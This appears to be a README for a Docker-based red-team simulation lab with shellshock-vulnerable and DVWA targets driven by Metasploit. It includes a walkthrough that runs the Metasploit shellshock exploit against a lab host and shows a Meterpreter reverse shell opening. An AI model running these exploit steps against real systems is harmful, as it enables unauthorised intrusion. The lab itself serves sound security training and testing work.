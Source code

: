 # redteam

Red Team simulation

## Requirements

1. Install docker and docker-compose


## Components

- Postgres database
- Vulnerable hosts:
  - Apache httpd vulnerable to shellshock
  - DVWA (Damn Vulnerable Web Application)
- Metasploit RPC api (red team worker)
- Python director (red team director)
- Metasploit console (for debugging)


## Usage

1. Start the database: `docker-compose -f docker-compose-db.yml up -t 2`
   (persistence is disabled, removing the container will reset the data)
1. Start director and workers: `docker-compose -f docker-compose-workers.yml up -t 2`
1. Start the director: `docker-compose up --build -t 2`


## Manual use of metasploit

If you want to debug the state of the database or perform 
manual actions in metasploit, you can connect to the
msfconsole by ```docker attach redteam_msfconsole_1```


Example attack:


Scan the hostname "target2"
```
> db_nmap target2
```

Check that the host is now in the database
```
> hosts
Hosts
=====

address     mac                name                               os_name  os_flavor  os_sp  purpose  info  comments
-------     ---                ----                               -------  ---------  -----  -------  ----  --------
172.19.0.3  02:42:ac:13:00:03  redteam_target2_1.redteam_default  Unknown                    device         
```

Check which services are now in the database
```
> services
Services
========

host        port  proto  name   state  info
----        ----  -----  ----   -----  ----
172.19.0.3  80    tcp    http   open 
```

Let's assume you expect the host to be vulnerable to shellshock, let's exploit it:
```
> use exploit/multi/http/apache_mod_cgi_bash_env_exec
> show options
> set RHOSTS target2
> set TARGETURI /cgi-bin/stats
```

Run the exploit:
```
> exploit

[*] Started reverse TCP handler on 172.19.0.6:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (976712 bytes) to 172.19.0.3
[*] Meterpreter session 1 opened (172.19.0.6:4444 -> 172.19.0.3:60846) at 2020-11-04 12:52:22 +0000

meterpreter >
```

Profit!


